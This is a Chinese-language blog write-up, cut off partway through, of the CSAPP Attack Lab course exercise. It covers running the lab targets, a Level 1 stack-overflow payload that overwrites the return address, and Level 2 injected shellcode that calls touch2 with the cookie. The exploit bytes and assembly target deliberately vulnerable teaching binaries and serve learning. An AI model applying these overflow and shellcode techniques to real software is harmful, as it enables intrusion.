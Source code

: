 
今天顺带把attack lab做完了，算是小小地复习了下栈溢出和ROP吧。

## 使用方法

~~最开始我甚至都不知道这个lab要怎么开始做起，跑都跑不起来~~

`hex2raw`读入以空格作为分隔的一个个字节，编码成一个个机器码。就跟pwntools里面的u32、u64差不多的作用。不然直接输入是没有用的。

直接运行`ctarget`或`rtarget`会没办法运行，报了个`Running on an illegal host`的错误。

我们加个`-q`的参数就能跑了。或者`-i`然后加上文件名，从文件里读入。

运行的方法是这样：

```
$ ./hex2raw < levelx.txt | ./ctarget -q
$ ./hex2raw < levelx.txt | ./rtarget -q
```

## Part 1: Code Injection Attacks

这部分主要是利用了栈溢出，虽然checksec查到了canary，但在那个`Gets`函数里面看看汇编其实是没有的。

同时栈内存可执行，这是Level 2跟3的伏笔。

### Level 1

最简单的`gets`函数溢出，只要用`touch1`的地址覆盖rbp就可以了。

```
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
c0 17 40 00 00 00 00 00
```

{% qnimg CSAPP-Attack-Lab-Writeup/success1.png %}

### Level 2

第二个要求利用栈溢出调用`touch2`，同时携带一个int参数，要求值跟cookie一致。

可以直接ROP解决，而这里因为栈可执行，还有往栈里写shellcode的做法，做下记录。

构造shellcode当然先写汇编，有两种写法：

#### 已知cookie再写入

在`cookie.txt`里面就有cookie的值，我们只要把这个值赋给rdi就可。

```
movq $0x59b997fa, %rdi
pushq $0x004017ec
retq
```
